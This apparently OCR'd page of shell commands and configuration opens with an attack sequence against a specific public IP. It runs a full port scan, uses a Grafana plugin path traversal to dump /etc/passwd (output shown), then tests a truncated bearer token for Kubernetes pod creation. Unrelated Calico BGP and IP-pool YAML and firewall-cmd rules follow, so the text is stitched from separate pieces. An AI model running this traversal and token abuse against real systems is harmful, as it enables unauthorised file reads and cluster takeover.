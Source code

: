 $ nmap -p- --min-rate=1000 103.171.91.13
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-22 23:01 +07
Nmap scan report for 103.171.91.13
Host is up (0.028s latency).
Not shown: 65525 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
6443/tcp  open   sun-sr-https
9090/tcp  closed zeus-admin
19019/tcp open   unknown
30000/tcp open   ndmps
30740/tcp open   unknown
31750/tcp open   unknown
32000/tcp closed unknown

curl http://103.171.91.13:30000/login                                                                                                      
<!doctype html><html lang="en"><head>.......<style>.preloader {
        height: 100%;
        flex-direction: column;
        display: flex;
        justify-content: center;
        align-items: center;
      }
      ......

$ curl --path-as-is 103.171.91.13:30000/public/plugins/alertGroups/../../../../../../../../etc/passwd                                        
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:Linux User,,,:/home/grafana:/sbin/nologin

$ export $TOKEN = “eyJhbGciOiJSUzI1NiIsImtp…………………cJ7CWqN8ch8ZBpeGxw”

$ kubectl --token=TOKEN auth can-i create pod                                                                                                
yes

apiVersion: projectcalico.org/v3
kind: BGPPeer
metadata:
  name: rack1-tor
spec:
  peerIP: 192.20.30.40
  asNumber: 64567
  nodeSelector: rack == 'rack-1'

$ kubectl label node my-node route-reflector=true

kind: BGPPeer
apiVersion: projectcalico.org/v3
metadata:
  name: peer-with-route-reflectors
spec:
  nodeSelector: all()
  peerSelector: route-reflector == 'true'

apiVersion: projectcalico.org/v3
kind: IPPool
metadata:
  name: ippool-ipip-1
spec:
  cidr: 192.168.0.0/16
  ipipMode: Always
  natOutgoing: true

apiVersion: projectcalico.org/v3
kind: IPPool
metadata:
  name: ippool-vxlan-1
spec:
  cidr: 192.168.0.0/16
  vxlanMode: Always
  natOutgoing: true

sudo firewall-cmd --zone=public --add-port=6443/tcp --permanent
sudo firewall-cmd --zone=public --add-port=30000/tcp --permanent
firewall-cmd --reload


sudo firewall-cmd --permanent --add-rich-rule='rule family="ipv4" source address="103.20.14.55" port port="9100" protocol="tcp" accept'
sudo firewall-cmd --permanent --add-rich-rule='rule family="ipv4" source address="103.20.14.56" port port="9100" protocol="tcp" accept'
sudo firewall-cmd --permanent --add-rich-rule='rule family="ipv4" source address="103.20.15.56" port port="9100" protocol="tcp" accept'
sudo firewall-cmd --reload